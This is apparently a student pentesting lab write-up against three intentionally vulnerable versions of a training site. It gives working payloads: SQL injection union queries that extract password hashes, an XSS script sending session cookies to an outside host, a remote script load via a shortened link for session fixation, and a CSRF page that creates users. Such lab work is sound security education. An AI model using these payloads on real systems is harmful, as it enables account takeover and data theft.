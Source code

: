 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)<br />  
    ![GIF Walkthrough](./img/B1.gif)<br />  
    Steps to recreate:
- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1
- Replace the id parameter with a single quote ```'```.<br />
Example: ```https://104.198.208.81/blue/public/salesperson.php?id='```
- After the quote type url encoded SQL command.<br />
Example: ```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+```
- You can interate through the records by changing the ```LIMIT``` and ```OFFSET``` values
- Some of the example commands:<br />```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+```

- Data collected:
    - Database: globitek_blue
    - Tables:
        - users
        - territories
        - states
        - salespeople_territories
        - salespeople
        - failed_logins
        - countries
        - feedback
    - Columns
        - id
        - name
        - code
        - username
        - count
        - last_attempt
        - email
        - feedback
        - created_at
        - first_name
        - last_name
        - phone
        - territory_id
        - salesperson_id
        - country_id
        - state_id
        - position
        - hashed_password

Vulnerability #2: Session Hijacking/Fixation<br />  
    ![GIF Walkthrough](./img/B2short.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z1UCVh"></script>
  ```  
  https://bit.ly/2z1UCVh is a shortened link for a <a href="./js_scripts/Untitled-8.js">js script</a> hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin  
This is possible because new PHPSESSID is not generated when a used logs into website



## Green

Vulnerability #1: Username Enumeration<br />  
    ![GIF Walkthrough](./img/G2.gif)<br />  
    Steps to recreate:
- On the Log In page try to bruteforce diffent usernames.
- The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.  
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.


Vulnerability #2: Cross-Site Scripting (XSS)<br />  
    ![GIF Walkthrough](./img/G1.gif)<br />  
    Steps to recreate:
- Go to the Contact page.
- In the text area type the following script 
  ```html
    <script>var node = document.createElement('img');
    node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
    document.getElementById("main-content").appendChild(node);</script>
  ```
- Submit the form
- When admin checks the feeedback ```PHPSESSID``` will be sent to the http://192.168.1.2:3000 address as a GET parameter


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)<br />  
    ![GIF Walkthrough](./img/R1.gif)<br />  
    Steps to recreate:
- Go to the "Find a Salesperson" page.
- Click on one of the salespersons page.
- Increment the number at the end of the URL.

Vulnerability #2: Cross-Site Request Forgery (CSRF)<br />  
    ![GIF Walkthrough](./img/R2_2.gif)<br />  
    Steps to recreate:
- When logged in as an admin go to http://artemskit.github.io .  
See the code for the page <a href="./html/index.html">here</a>
- A new user will be created with the username "johnnybravo".
- This is possible because /red/public/staff/users/new.php does not check "csrf_token" in the new user creation form

## Notes

Any user can be deleted, which creates a situation where noone can log into the website.
Any user can use XSS to redirect away from the "Feedback" page, which creates a situation where noone can use this page.
